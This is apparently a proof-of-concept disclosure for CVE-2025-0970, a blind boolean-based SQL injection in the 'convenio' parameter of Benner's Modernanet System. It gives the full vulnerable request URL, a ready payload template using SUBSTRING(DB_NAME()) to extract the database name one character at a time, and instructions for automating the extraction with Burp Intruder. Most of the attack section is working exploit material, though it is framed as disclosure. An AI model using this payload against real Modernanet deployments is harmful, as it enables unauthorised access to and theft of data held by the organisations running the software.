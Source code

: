 # CVE-2025-0970
The Modernanet System by Benner is vulnerable to Blind Boolean Based SQL Injection.

**Affected Version: < 1.1.1**

**OBS: Tool like SQLmap doesn't work in this case**


## POC

This vulnerability resides in the /AGE0000700/GetHorariosDoDia?idespec=0&idproced=1103&data=2025-02-25+19%3A25&agserv=0&convenio=1&localatend=1&idplano=5&pesfis=01&idprofissional=0&target=.horarios--dia--d0&_=1739371223797 page in convenio parameter,

Its possible to manipulate the parameter to insert any SQL query in victim database.

Payload example: `1)) AND (CASE WHEN (SUBSTRING(DB_NAME(),X,1)='Y') THEN 1 ELSE 0 END=1)--`.

If you want to retrieve the database name, **just for the POC**, its just needed to change the argument X to the database name index and Y to the database name character.

## Request example:
![alt text](request.png)


---


## After intercepting the request, you can use the Intruder option in BurpSuite

### Intruder Example
![alt text](intruder.png)


Observe, we have a longer response length when the letter is 'r', i.e. the first letter of the database name is 'r'.

You can repeat this, to the other letters


## Full url
https://IP/AGE0000700/GetHorariosDoDia?idespec=0&idproced=1103&data=2025-02-25+19%3A25&agserv=0&convenio=1&localatend=1&idplano=5&pesfis=01&idprofissional=0&target=.horarios--dia--d0&_=1739371223797

---

## Reference

https://modernasistemas.com.br/
